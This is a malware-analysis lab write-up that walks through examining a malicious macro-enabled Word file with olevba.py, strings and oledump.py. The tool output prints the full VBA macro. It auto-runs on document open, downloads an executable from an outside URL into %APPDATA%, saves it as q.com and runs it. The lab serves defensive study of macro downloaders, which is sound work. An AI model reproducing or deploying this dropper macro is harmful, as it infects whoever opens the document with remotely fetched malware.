



# Lab 3.8: Examining media.docm Using olevba.py and oledump.py

- [Lab 3.8: Examining media.docm Using olevba.py and oledump.py](#lab-38-examining-mediadocm-using-olevbapy-and-oledumppy)
  - [Objectives](#objectives)
  - [Steps](#steps)
  - [1 - Use olevba.py to extract macros](#1---use-olevbapy-to-extract-macros)
  - [2 - Use unzip to extract contents of media.docm and examine the vbaProject.bin using strings and oledump.py](#2---use-unzip-to-extract-contents-of-mediadocm-and-examine-the-vbaprojectbin-using-strings-and-oledumppy)

---

## Objectives

- Gain familiarity with downloader capabilities of malicious Microsoft Office macros.
- Learn how to use `olevba.py` and `oledump.py` to extract macros from Microsoft Office documents.

<br/>

---

## Steps

1. Use `olevba.py` to extract macros from `media.docm` and examine the results.
2. Use `unzip` to extract contents of `media.docm` and examine the `vbaProject.bin` using `strings` and `oledump.py`.

<br/>

---

## 1 - Use olevba.py to extract macros

First extract `media.zip`:

```
unzip media.zip -d media
cd media
ls
```

  

<br/>

Use `olevba.py` to extract the macro from the office document:

```
olevba.py media.docm | more
```

- Here is the extract result:

```
olevba 0.51a - http://decalage.info/python/oletools
Flags        Filename                                                         
-----------  -----------------------------------------------------------------
OpX:MASI---- media.docm
===============================================================================
FILE: media.docm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas 
in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
    h
End Sub

Sub h()

Set oShell = CreateObject("WScript.Shell")
strH = oShell.ExpandEnvironmentStrings("%APPDATA%")
Dim sDir: sDir = strH & "\q"

      
 Set fso = CreateObject("Scripting.FileSystemObject")
   If (fso.FolderExists(sDir)) Then


   Else
   Set oFSO = CreateObject("Scripting.FileSystemObject")
      oFSO.CreateFolder sDir
   

End If

Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "http://softtonic.biz/cr/20014.exe", False
xHttp.Send

With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile strH & "\q\q.com", 2
End With


Call m(sDir)

End Sub

Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub


Function m(str11)
    Dim fso, f, fc, f1, strF, intFiles
    Dim WshShell

    Set WshShell = CreateObject("WScript.Shell")

    strF = ""

    Set fso = CreateObject("Scripting.FileSystemObject")
    If (fso.FolderExists(str11)) Then
        Set f = fso.GetFolder(str11)
        Set fc = f.Files

        
        For Each f1 In fc
        Dim fR
        fR = str11 & "\" & f1.Name
        WshShell.Run Chr(34) & fR & Chr(34), 1, True
    Next

        Set f1 = Nothing
        Set fc = Nothing
        Set f = Nothing


    End If
    Set fso = Nothing
End Function


+------------+----------------------+-----------------------------------------+
| Type       | Keyword              | Description                             |
+------------+----------------------+-----------------------------------------+
| AutoExec   | AutoOpen             | Runs when the Word document is opened   |
| AutoExec   | Auto_Open            | Runs when the Excel Workbook is opened  |
| AutoExec   | Workbook_Open        | Runs when the Excel Workbook is opened  |
| Suspicious | Chr                  | May attempt to obfuscate specific       |
|            |                      | strings (use option --deobf to          |
|            |                      | deobfuscate)                            |
| Suspicious | Open                 | May open a file                         |
| Suspicious | Shell                | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | WScript.Shell        | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | Run                  | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | CreateObject         | May create an OLE object                |
| Suspicious | Adodb.Stream         | May create a text file                  |
| Suspicious | savetofile           | May create a text file                  |
| Suspicious | write                | May write to a file (if combined with   |
|            |                      | Open)                                   |
| Suspicious | Microsoft.XMLHTTP    | May download files from the Internet    |
| IOC        | http://softtonic.biz | URL                                     |
|            | /cr/20014.exe        |                                         |
| IOC        | 20014.exe            | Executable file name                    |
+------------+----------------------+-----------------------------------------+

```

<br/>

- `Sub AutoOpen` - Autorun the macro for Word document
- `Sub Workbook_Open()` - Autorun the macro for Excel document
- It downloads an executable from `http://softtonic.biz/cr/20014.exe` to the `%APPDATA%\q` directory

<br/>

---

## 2 - Use unzip to extract contents of media.docm and examine the vbaProject.bin using strings and oledump.py

Unzip the document:

```
unzip media.docm
```

  

<br/>

Try to use `strings` to inspect `vbaProject.bin`:

```
strings vbaProject.bin | more
```

  

- This result aligns with the finding in #1

<br/>

Try to add `--encoding=l` as well:

  

- An additional URL related to `dropboxusercontext.com` is found stoed as Unicode
- This is a SRP performance cache

<br/>

In additional, we can see the images when the user opens the document:

```
feh ./word/media/image1.jpg
feh ./word/media/image2.jpg
```

  

  

<br/>

Next, try to use `oledump.py` to list the content in `vbaProject.bin`:

```
oledump.py ./word/vbaProject.bin
```

  

- We can see the `M` label - which means the stream `3` contains Macro
- Note the `SRP` streams. In fact the URL in unicode found resides in `__SRP_0` stream, which suggests the earlier version of macro that was cached inside this stream

<br/>

Then extract it:

```
oledump.py ./word/vbaProject.bin -s 3 -v | more
```

  

- Same finding as before

<br/>

---